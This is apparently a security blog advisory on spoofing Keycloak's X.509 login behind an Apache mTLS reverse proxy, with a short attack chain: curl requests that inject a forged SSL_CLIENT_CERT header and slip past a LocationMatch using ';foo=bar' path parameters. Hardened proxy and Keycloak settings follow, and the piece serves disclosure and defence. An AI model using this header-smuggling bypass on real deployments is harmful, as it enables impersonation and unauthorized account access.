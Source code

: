 ```yaml
---
layout: post
title:  "Keycloak behind reverse proxy with mTLS for X.509 login flow --> Possible vulnerability to bypass or spoof the X.509 credentials"
datetime: 2023-02-06 17:00:00 MET
last_modified_at: 2023-02-06 17:00:00 MET
author: 'psytester'
---
```


Smuggling HTTP headers through reverse proxies as vulnerability to spoof the Keycloak X.509 login flow.<br>
Is that possible?

Keycloak’s guideline for using [reverse proxy](https://www.keycloak.org/server/reverseproxy) as TLS termination implies that it's already highly secured with edge proxy mode because of
```
This mode is suitable for deployments with a highly secure internal network where the reverse proxy....
```
Yes, our internal network is highly secured with several DMZ, local firewalls, intrusion detection systems, blah blah blah.<br>

My attack scenario:<br>
I do not have the p12 keystore with its private key for successful mTLS handshake in reverse proxy! No chance to overcome the client certificate check!

With social engineering means I got the public certificate from my victim, because the public part is not dangerous? Or is it? 

# Basics why it will work
Based on [research found at Telekom Security](https://github.security.telekom.com/2020/05/smuggling-http-headers-through-reverse-proxies.html) I’m using this flaw of smuggling HTTP headers through reverse proxies.

It's actually just the configuration documentation or rather the correct documentation of hardening why this flaw is possible.<br>
Just in case of a reverse proxy in front we may have an issue which leads to the possible bypass and Keycloak X.509 login spoof!

Maybe the Keycloak team will take up my suggestion to point out the vulnerability more explicitly here and how to prevent it as simple configuration task.


# Initial - a common default setup is our flaw
My setup is simply default due to example documentation found on internet for its configuration.<br>
In my case Keycloak is serving several realms and one needs to be protected by mTLS in reverse proxy and a Keycloak X.509 login flow behind.

In Keycloak's [reverse proxy configuration](https://www.keycloak.org/server/reverseproxy) page, the common default http header `SSL_CLIENT_CERT` is used as example:
```
bin/kc.[sh|bat] start --spi-x509cert-lookup-<provider>-ssl-client-cert=SSL_CLIENT_CERT \
  --spi-x509cert-lookup-apache-ssl-cert-chain-prefix=CERT_CHAIN
```

Same at [Red Hat SSO 7.6 administration guide](https://access.redhat.com/documentation/en-us/red_hat_single_sign-on/7.6/html-single/server_administration_guide/index#apache_certificate_lookup_provider) for legacy Wildfly based Keycloak
```
<property name="sslClientCert" value="SSL_CLIENT_CERT"/>
<property name="sslCertChainPrefix" value="CERT_CHAIN"/>
```

Most people will use such examples in production.

My apache httpd setup is using a common `LocationMatch /auth` for all realms and they endpoints.<br>
One realm has mTLS Client authentication enabled in apache reverse proxy for the `/auth/realms/{realmname}/protocol/openid-connect/auth` endpoint only and will set the `SSL_CLIENT_CERT` Header.<br>

Why mTLS for `/auth/realms/{realmname}/protocol/openid-connect/auth` only?<br>
If the whole realm `/auth/realms/realmname` would be mTLS protected, we would need in our applications a machine certificate to overcome the mTLS handshake too.


Apache httpd.conf
```
ProxyPass “/auth/” “http://keycloakserver:8080/auth”
ProxyPassReverse “/auth” “http://keycloakserver:8080/auth”

<LocationMatch “/auth/realms/realmname/protocol/openid-connect/auth”> 
    SSLVerifyClient require
    SSLOptions +ExportCertData +StrictRequire
    SSLVerifyDeth 3

    RequestHeader set SSL_CLIENT_CERT "%{SSL_CLIENT_CERT}s"
    RequestHeader set CERT_CHAIN_0 "%{SSL_CLIENT_CERT_CHAIN_0}s"

    Header set Cache-Control …
</LocationMatch>

<LocationMatch “/auth”>
    Header set Cache-Control …
</LocationMatch> 
```

# The attack chain
1. Obtain the public certificate from victim<br>
or in worst case if certificate revalidation is not activated in Keycloak X.509 flow create any ordinary self signed certificate that spoofs the user account. 

2. Obtain valid oid `/auth` endpoint url by calling the webservice which will redirect us to Keycloak oid `/auth` endpoint 
```
curl --path-as-is 'https://mydomain/'
```


3. Inject the public certificate as HTTP header and bypass the location match by inserting `;foo=bar` into the oid `/auth` endpoint 
```
curl --path-as-is 'https://mydomain/auth/realms/realmname/protocol/openid-connect;foo=bar/auth ' \
    -H 'SSL_CLIENT_CERT: -----BEGIN CERTIFICATE----- PEM Base64 encoded certificate -----END CERTIFICATE-----'
```

Jackpot! :-) <br>
In case of apache as reverse proxy I got it. I did not check with nginx, but I belive it could be possible, too according to [research at Telekom Security](https://github.security.telekom.com/2020/05/smuggling-http-headers-through-reverse-proxies.html).<br>
Hello container image world, your ingress is just a nginx… ;-)

# Mitigations?
First, my explicit advice that out of the common header names should be used.<br>
And those mitigations and they combination should be done.

1. Usage of out of the common header names, hard to guess

In reverse proxy
```
RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT "%{SSL_CLIENT_CERT}s"
RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT_CHAIN_0 "%{SSL_CLIENT_CERT_CHAIN_0}s"
```

In Keycloak
```
bin/kc.[sh|bat] start --spi-x509cert-lookup-apache-ssl-client-cert=SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT \
  --spi-x509cert-lookup-apache-ssl-cert-chain-prefix=SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT_CHAIN
```

2. The apache configuration should contain an initial set header empty value or unset header
```
# initialize the special headers to be blank for all other LocationMatch as common place to avoid http header forgeries
RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT ""
RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT_CHAIN ""
```
3. Mandatory usage of trust store and certificate chain revalidation in Keycloak, otherwise a self-signed certificate with spoofed login data is usable. That’s the worst case.

4. CRL check in Keycloak, too. Revoked certificates should be declined in Keycloak, too. Not only at reverse proxy at mTLS handshake.

# My final mitigation setup
In Keycloak
```
bin/kc.[sh|bat] start --spi-x509cert-lookup-apache-ssl-client-cert=SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT \
  --spi-x509cert-lookup-apache-ssl-cert-chain-prefix=SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT_CHAIN
```

Apache httpd.conf
```
ProxyPass http://keycloakserver:8080/auth
ProxyPassReverse  http://keycloakserver:8080/auth

<LocationMatch “/auth/realms/realmname/protocol/openid-connect/auth”> 
    SSLVerifyClient require
    SSLOptions +ExportCertData +StrictRequire
    SSLVerifyDeth 3

    # Usage of out of the common header names
    RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT "%{SSL_CLIENT_CERT}s"
    RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT_CHAIN_0 "%{SSL_CLIENT_CERT_CHAIN_0}s"

    Header set Cache-Control …
</LocationMatch>

<LocationMatch /auth>
    # initialize/override the special headers to be blank
    RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT ""
    RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT_CHAIN_0 ""

    Header set Cache-Control …
</LocationMatch>
```
Is it enough at <LocationMatch /auth> or better global? ;-)<br>
What about that URL bypass?<br>
```https://mydomain/;foo=bar/auth/realms/realmname/protocol/openid-connect/auth```


# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2023 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
